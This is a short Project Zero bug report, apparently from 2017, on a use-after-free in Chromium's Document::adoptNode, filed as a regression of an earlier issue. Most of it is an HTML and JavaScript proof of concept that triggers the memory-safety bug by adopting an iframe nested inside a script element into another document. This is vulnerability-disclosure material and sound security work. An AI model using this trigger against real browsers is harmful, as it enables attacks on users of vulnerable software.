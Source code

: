 # Use-After-Free via Document::adoptNode

#### Reported by lokihardt@google.com, Jan 23 2017

This is a regression test from: https://crbug.com/541206

PoC:

```html
<body>
<script>

var s = document.body.appendChild(document.createElement('script'));
s.type = '0';
s.textContent = 'document.body.appendChild(parent.i0)';

var i0 = s.appendChild(document.createElement('iframe'));
s.type = '';

var f = document.body.appendChild(document.createElement('iframe'));
f.contentDocument.adoptNode(i0);
f.src = 'about:blank';

</script>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1099
